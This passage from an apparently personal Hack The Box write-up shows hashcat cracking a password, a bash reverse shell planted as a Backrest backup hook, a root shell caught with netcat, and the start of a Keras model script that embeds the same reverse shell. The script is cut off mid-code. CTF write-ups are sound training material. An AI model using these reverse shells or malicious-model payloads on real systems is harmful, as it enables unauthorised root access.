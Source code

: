 ```a
Speed.#1.........:      317 H/s (10.58ms) @ Accel:2 Loops:8 Thr:16 Vec:1  
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)  
Progress.........: 5376/14344385 (0.04%)  
Rejected.........: 0/5376 (0.00%)  
Restore.Point....: 4928/14344385 (0.03%)  
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024  
Candidate.Engine.: Device Generator  
Candidates.#1....: universidad -> ginuwine  
Hardware.Mon.#1..: Temp: 61c Util: 96% Core:1530MHz Mem:6000MHz Bus:16  
  
Started: Sun Aug  3 00:03:34 2025  
Stopped: Sun Aug  3 00:03:58 2025
```
- At first it appears as if we didn't crack it due to the fact that we just have a bunch of random numbers and symbols. Note, however, that the format is `hash:pass`, so our password is `!@#$%^`.
- Let's go! We have what is at least an old set of credentials: `backrest_root:!@#$%^`
- WE ARE SO IN!

### Backrest, For Real
- So I created a repository for backups.
- This runs as root, so I could just backup `/root/` and be done, but that's lame. I want a shell.
- You can create hooks to run on certain events. I'll just put this bash reverse shell as the `CONDITION_PRUNE_START` event:
```a
bash -i >& /dev/tcp/10.10.14.237/8080 0>&1
```
- After creating the hook, there's an error. It's showing `Bad fd number`, so it's easy to see that the shell being used is `/bin/sh`. The payload just needs to be adjusted to:
```a
/bin/bash -c "bash -i >& /dev/tcp/10.10.14.237/8080 0>&1"
```
- Listen with netcat, start a prune, and...
```a
[lkotlus@work] [~/Nerd/htb/artificial]    
(bash)> nc -nlvp 8080  
Connection from 10.10.11.74:47444  
bash: cannot set terminal process group (1538): Inappropriate ioctl for device  
bash: no job control in this shell  
root@artificial:/# cat ~/root.txt  
cat ~/root.txt  
e1d79aa67d43c8b838f7cfe7a67c01a0
```
- And there we have it! Be a good sport and run `/root/scripts/cleanup.sh` so that nobody accidentally cheats off your work.

## Post-Machine Review
### Exploitation Path
- Create an account on the website they are hosting publicly
- Create the following script to build a payload (this is more optimized than the one seen in notes above):
```python
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers

# Actual exploit zone
def exploit(x):
    import os
    os.system("/bin/bash -c \"bash -i >& /dev/tcp/10.10.14.237/8080 0>&1\"")
    return x

# Build the model
model = keras.Sequential([
```